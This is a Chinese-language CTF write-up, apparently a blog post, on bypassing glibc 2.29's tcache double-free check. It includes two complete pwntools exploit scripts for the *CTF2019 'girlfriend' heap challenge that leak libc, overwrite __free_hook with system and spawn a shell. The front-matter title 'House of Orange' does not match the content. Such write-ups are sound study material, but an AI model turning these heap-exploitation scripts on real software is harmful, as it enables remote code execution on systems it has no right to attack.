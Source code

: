 ```yaml
---
clayout: post
title:  "House of Orange"
date:   2020-2-18
desc: ""
keywords: ""
categories: [Binary]
tags: [pwn]
icon: icon-html
---
```


# glibc2.29-double free

> fastbin double free，👴的青春回来🌶

## glibc2.29-tcache

```c
#if USE_TCACHE
  {
    size_t tc_idx = csize2tidx (size);
    if (tcache != NULL && tc_idx < mp_.tcache_bins)
      {
	/* Check to see if it's already in the tcache.  */
	tcache_entry *e = (tcache_entry *) chunk2mem (p);

	/* This test succeeds on double free.  However, we don't 100%
	   trust it (it also matches random payload data at a 1 in
	   2^<size_t> chance), so verify it's not an unlikely
	   coincidence before aborting.  */
	if (__glibc_unlikely (e->key == tcache))
	  {
	    tcache_entry *tmp;
	    LIBC_PROBE (memory_tcache_double_free, 2, e, tc_idx);
	    for (tmp = tcache->entries[tc_idx];
		 tmp;
		 tmp = tmp->next)
	      if (tmp == e)
		malloc_printerr ("free(): double free detected in tcache 2");
	    /* If we get here, it was a coincidence.  We've wasted a
	       few cycles, but don't abort.  */
	  }

	if (tcache->counts[tc_idx] < mp_.tcache_count)
	  {
	    tcache_put (p, tc_idx);
	    return;
	  }
      }
  }
#endif
```

glibc2.29在tcache_entry结构体中加上一个8字节指针key，位置就是bk的位置，chunk进入tcache后，将chunk->key设置为tcachestruct(heap开头+0x10)

free时，进tcache前会检查chunk->key是否为tcache，如果是tcache就会检查tcache链中是否有相同的chunk

把chunk->key改了就可以绕过检查，但是👴寻思👴都能摸到bk了应该也能摸到fd，那👴应该也⑧需要double free了

👴搞出来fastbin，然后fastbin double free，梦回2.23



## *CTF2019-girlfriend

double free

libc白给，free一个大于等于0x420然后show就完事了

add一堆，先free7个，后面的准备进fastbin，然后fastbin double free基本操作

```python
from pwn import *

#r = process(['./lib/ld-2.29.so','--library-path','./lib/','./babyheap'])
r = remote('node3.buuoj.cn',25085)
elf=ELF('./babyheap')
libc = ELF('./lib/libc.so.6')

def add(size,name):
    r.sendlineafter('choice:','1')
    r.sendlineafter('name',str(size))
    r.sendlineafter('name:',name)
    r.sendlineafter('call:','1')

def show(index):
    r.sendlineafter('choice:','2')
    r.sendlineafter('index:',str(index))
    r.recvuntil('name:')

def free(index):
    r.sendlineafter('choice:','4')
    r.sendlineafter('index:',str(index))

add(0x500,'fuck')
add(0x40,'/bin/sh\x00')
free(0)
show(0)
r.recvuntil('\n')
leak = u64(r.recvuntil('\x7f').ljust(8,'\x00'))
libc_base = leak-0x3b1ca0
log.success(hex(libc_base))

free_hook = libc_base + libc.sym['__free_hook']
system = libc_base + libc.sym['system']
log.success(hex(free_hook))
add(0x500,'fuck')

for i in range(9):
	add(0x60,'fuck')
for i in range(8):
	free(i+2)
free(10)
free(11)
free(10)

for i in range(7):
	add(0x60,'fuck')

add(0x60,p64(free_hook-0x13))
add(0x60,'fuck')
add(0x60,'fuck')
add(0x60,'a'*0x13+p64(system))
free(1)
r.interactive()
```



glibc-2.27

```python
from pwn import *

r = remote('node3.buuoj.cn',29019)
elf=ELF('./babyheap')
libc = ELF('/libc-2.27.so')

def add(size,name):
    r.sendlineafter('choice:','1')
    r.sendlineafter('name',str(size))
    r.sendlineafter('name:',name)
    r.sendlineafter('call:','1')

def show(index):
    r.sendlineafter('choice:','2')
    r.sendlineafter('index:',str(index))
    r.recvuntil('name:')

def free(index):
    r.sendlineafter('choice:','4')
    r.sendlineafter('index:',str(index))

add(0x500,'fuck')
add(0x40,'/bin/sh\x00')
free(0)
show(0)
r.recvuntil('\n')
leak = u64(r.recvuntil('\x7f').ljust(8,'\x00'))
libc_base = leak-96-0x10-libc.sym['__malloc_hook']
log.success(hex(libc_base))

free_hook = libc_base + libc.sym['__free_hook']
system = libc_base + libc.sym['system']
log.success(hex(free_hook))

add(0x60,'fuck')
add(0x60,'fuck')
free(2)
free(2)
add(0x60,p64(free_hook-0x13))
add(0x60,'fuck')
add(0x60,'a'*0x13+p64(system))
free(1)
r.interactive()

```

